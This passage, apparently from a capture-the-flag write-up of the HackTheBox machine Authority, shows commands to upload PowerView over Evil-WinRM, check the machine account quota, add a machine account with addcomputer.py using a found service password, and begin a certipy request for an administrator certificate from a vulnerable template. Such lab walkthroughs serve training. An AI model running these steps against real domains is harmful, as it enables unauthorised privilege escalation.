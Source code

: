 The setting that allows a user to add a computer to the domain is the
`ms-ds-machineaccountquota`. On Authority, I can query this with
[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):



    *Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
    Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1

                                                                 
    Data: 1027036 bytes of 1027036 bytes copied

    Info: Upload successful!

    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
    *Evil-WinRM* PS C:\programdata> Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota

    ms-ds-machineaccountquota
    -------------------------
                           10



`netexec` will also do this from my VM:



    oxdf@hacky$ netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
    MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
    MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10



Now I can add the computer with `addcomputer.py`:



    oxdf@hacky$ addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 0xdf -computer-pass 0xdf0xdf0xdf -dc-ip 10.10.11.222
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra

    [*] Successfully added machine account 0xdf$ with password 0xdf0xdf0xdf.



#### Create Certificate

With the computer account on the domain, now `certipy` will create the
certificate with the following options:

-   `req` - request a certificate
-   `-username '0xdf$' -password 0xdf0xdf0xdf` - auth as the computer
    account created above
-   `-ca AUTHORITY-CA` - the certificate authority associated with the
    ADCS
-   `-dc-ip 10.10.11.222` - the IP of the DC
-   `-template CorpVPN` - the name of the vulnerable template
-   `-upn administrator@authority.htb` - the user requesting the
    certificate for
-   `-dns authority.htb` - the DNS server to use in this request
